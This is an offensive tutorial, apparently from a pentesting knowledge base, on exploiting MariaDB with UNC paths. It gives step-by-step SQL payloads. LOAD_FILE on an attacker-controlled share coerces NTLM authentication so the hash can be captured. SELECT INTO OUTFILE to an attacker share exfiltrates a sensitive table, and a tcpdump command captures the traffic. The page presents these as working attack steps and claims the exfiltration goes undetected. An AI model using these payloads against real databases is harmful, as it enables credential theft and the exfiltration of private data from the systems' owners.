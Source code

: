 ```yaml
---
title: Exploit MariaDB Using UNC Paths for NTLM Hash Capture
description: Learn how to exploit MariaDB using UNC paths for NTLM hash capture and
  data exfiltration.
keywords:
- MariaDB
- UNC path
- NTLM hash
- network exfiltration
- SQL injection
- data exfiltration
- hash capture
---
```


# MariaDB UNC Path Attack

## Context

This article aims to teach how to exploit MariaDB using UNC paths for NTLM hash capture and network exfiltration. To fully understand and execute this technique, familiarity with UNC paths, NTLM authentication, network exfiltration, and previous knowledge of MariaDB out-of-band attacks are assumed.

## Theory

### UNC Path Exploitation in MariaDB

UNC (Universal Naming Convention) paths are a way to specify network resources such as shared files or printers. MariaDB can be leveraged to make outbound requests to these paths, which presents a security vulnerability. This can be exploited by injecting a SQL query designed to trigger such a connection.

### NTLM Hash Capture via UNC Paths

NTLM (NT LAN Manager) authentication can be induced by redirecting a MariaDB instance to access a UNC path. If the path points to an attacker's controlled server, it can capture the NTLM hashes sent by MariaDB as part of the authentication process.

### Network Exfiltration Using UNC Paths

Using UNC paths, data can be directed from MariaDB to a controlled server. This method allows an attacker to exfiltrate information such as sensitive database contents without detection by simply routing it to a malicious server under their control.

## Practice

### MariaDB UNC Path Attack

To execute a MariaDB UNC Path Attack, follow these steps:

- **Initiate a SQL Query**: Use the following SQL command to force MariaDB to access a UNC path. This triggers NTLM authentication by attempting to load a file from an attacker's share:
  
  ```bash
  SELECT LOAD_FILE('\\\\attacker\\share\\file');
  ```
- **Monitor for Incoming NTLM Hash Requests**: Configure your server to capture NTLM hash requests. This typically involves setting up an environment to listen for SMB traffic. Ensure all necessary services are running.
  
- **Capture Network Traffic**: To observe network traffic and NTLM hash exchanges, execute the following command on your server:

  ```bash
  tcpdump -i eth0 port 445
  ```

Upon successful execution, NTLM hashes should be captured from MariaDB's attempt to access the UNC path.

### Data Exfiltration via UNC Path

To exfiltrate data from MariaDB using a UNC path:

- **Execute a Data Exfiltration Query**: Use this SQL command to export data from a sensitive database table to a remote UNC path:

  ```bash
  SELECT * INTO OUTFILE '\\\\attacker\\share\\data.txt' FROM sensitive_table;
  ```
  
- **Verify Data Reception**: Ensure that the data arrives correctly at your server. Monitoring tools or manual checks might be needed to verify the integrity and completeness of the exfiltrated data.

This method allows sensitive data to be stealthily transferred to the attacker's server as specified by the engineered UNC path.

## Tools

- **tcpdump**
- **Wireshark**

These tools support monitoring and analyzing network traffic, making them crucial for capturing NTLM hashes and verifying data exfiltration during a MariaDB UNC Path Attack.